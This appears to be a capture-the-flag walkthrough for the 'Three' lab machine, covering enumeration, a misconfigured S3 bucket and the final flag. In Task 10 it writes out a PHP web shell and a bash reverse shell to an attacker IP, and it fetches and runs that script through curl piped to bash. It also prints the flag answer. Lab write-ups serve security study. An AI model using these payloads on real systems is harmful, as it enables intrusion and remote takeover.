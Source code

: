 # Three

## Initial Scan

```bash
nmap -sV -T4 -v 10.129.232.222
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-16 18:35 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:35
Scanning 10.129.232.222 [2 ports]
Completed Ping Scan at 18:35, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.08s elapsed
Initiating Connect Scan at 18:35
Scanning 10.129.232.222 [1000 ports]
Discovered open port 22/tcp on 10.129.232.222
Discovered open port 80/tcp on 10.129.232.222
Completed Connect Scan at 18:35, 0.71s elapsed (1000 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.129.232.222
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:35 (0:00:06 remaining)
Completed Service scan at 18:35, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.232.222.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.26s elapsed
Initiating NSE at 18:35
Completed NSE at 18:35, 0.20s elapsed
Nmap scan report for 10.129.232.222
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```

## Task 1

#### How many TCP ports are open?

Found within the initial scan

Answer: 2

## Task 2

#### What is the domain of the email address provided in the "Contact" section of the website?

We see port 80 open on the target, when browsing the website of the target, going to Contact we see the email address.

<figure><img src="../../../.gitbook/assets/image (105) (1).png" alt=""><figcaption></figcaption></figure>

Answer: thetoppers.htb

## Task 3

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

General knowledge. Using the Host file on various systems can be used in lieu of a DNS server if they are hosted internally.

Answer: /etc/hosts

## Task 4

#### Which sub-domain is discovered during further enumeration?

After editing the host file to map the IP to the domain, we can use Gobuster to help enumerate the site.

<figure><img src="../../../.gitbook/assets/image (102) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Answer: s3.thetoppers.htb

## Task 5

#### Which service is running on the discovered sub-domain?

Since it's s3 by amazon, also if we google: s3 subdomain

Answer: Amazon S3

## Task 6

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?

Knowing it's amazon S3, what can we use to interact with it? Googling "Interact with Amazon S3" will give us our result

Answer: awscli

## Task 7

#### Which command is used to set up the AWS CLI installation?

`aws help` will give us our answer.

Answer: aws configure

## Task 8

#### What is the command used by the above utility to list all of the S3 buckets?

After configuring aws

<figure><img src="../../../.gitbook/assets/image (108) (2).png" alt=""><figcaption></figcaption></figure>

we can look at the S3 documentation.

Answer: aws s3 ls

## Task 9

#### This server is configured to run files written in what web scripting language?

Looking at the buckets with: `aws --endpoint=http://s3.thetoppers.htb s3 ls`

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can go into this further: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

<figure><img src="../../../.gitbook/assets/image (4) (1) (3).png" alt=""><figcaption></figcaption></figure>

With this basic info we can see this would use PHP

Answer: PHP

## Task 10

#### Submit Root Flag

So knowing it runs on PHP and with Amazons S3, we are going to work on getting a remote shell. Googling "get shell with php" I see we can use the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

With the shell file created, we can use `cp` to get the file onto the server and run CMD.

<figure><img src="../../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php.

We are met with: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` the output of the OS command `id`.

Now lets make a revershell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.119/1337 0>&1
```

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Going to open a netcat shell with `nc -nvlp 1337`&#x20;

<figure><img src="../../../.gitbook/assets/image (109) (1).png" alt=""><figcaption></figcaption></figure>

Now open a temp webserver to pull our script from: `python3 -m http.server 8081`&#x20;

<figure><img src="../../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

Now we can use curl to get our script onto the server and executing it:

http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.14.119%3E:8081/shell.sh|bash

We now can see our reverse shell:

<figure><img src="../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Now we can locate the flag and cat it's contents

<figure><img src="../../../.gitbook/assets/image (106) (1).png" alt=""><figcaption></figcaption></figure>

Answer: a980d99281a28d638ac68b9bf9453c2b
